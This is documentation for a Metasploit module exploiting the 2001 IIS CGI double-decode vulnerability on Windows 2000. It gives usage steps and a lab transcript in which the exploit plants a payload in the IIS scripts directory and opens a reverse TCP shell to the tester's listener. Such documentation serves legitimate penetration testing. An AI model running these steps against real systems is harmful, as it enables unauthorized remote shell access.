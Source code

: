 ## Vulnerable Application

This module will execute an arbitrary payload on a Microsoft IIS installation
that is vulnerable to the CGI double-decode vulnerability of 2001.

This module has been tested successfully on:

* Windows 2000 Professional (SP0) (EN)
* Windows 2000 Professional (SP1) (AR)
* Windows 2000 Professional (SP1) (CZ)
* Windows 2000 Server (SP0) (FR)
* Windows 2000 Server (SP1) (EN)
* Windows 2000 Server (SP1) (SE)

Note: This module will leave a Metasploit payload in the IIS scripts directory.

## Verification Steps

1. `use exploit/windows/iis/ms01_026_dbldecode`
1. `set RHOSTS [IP]`
1. `set PAYLOAD windows/shell/reverse_tcp`
1. `set LHOST [IP]`
1. `run`

## Options

### WINDIR

The Windows directory name of the target host.
The directory name will be detected automatically if not set.

### DEPTH

Traversal depth to reach the drive root (default: `2`)

## Scenarios

### Windows 2000 Server (SP0) (FR)

```
msf > use exploit/windows/iis/ms01_026_dbldecode
[*] Using configured payload windows/shell/reverse_tcp
msf exploit(windows/iis/ms01_026_dbldecode) > set rhosts 192.168.200.175
rhosts => 192.168.200.175
msf exploit(windows/iis/ms01_026_dbldecode) > check
[+] 192.168.200.175:80 - The target is vulnerable. Found Windows directory name: winnt
msf exploit(windows/iis/ms01_026_dbldecode) > set lhost 192.168.200.130
lhost => 192.168.200.130
msf exploit(windows/iis/ms01_026_dbldecode) > run

[*] Started reverse TCP handler on 192.168.200.130:4444
[*] Using Windows directory "winnt"
[*] Copying "\winnt\system32\cmd.exe" to the IIS scripts directory as "EcFJ.exe"...
[*] Command Stager progress -  66.67% done (40/60 bytes)
[*] Command Stager progress - 100.00% done (60/60 bytes)
[*] Triggering payload "qQErEZeB.exe" via a direct request...
[*] Encoded stage with x86/shikata_ga_nai
[*] Sending encoded stage (267 bytes) to 192.168.200.175
[*] Command shell session 1 opened (192.168.200.130:4444 -> 192.168.200.175:1090) at 2022-06-28 08:34:32 -0400
[!] This exploit may require manual cleanup of 'qQErEZeB.exe' on the target


Shell Banner:
Microsoft Windows 2000 [Version 5.00.2195]
-----
          

c:\inetpub\scripts>hostname
hostname
win2k-srv-fr
```
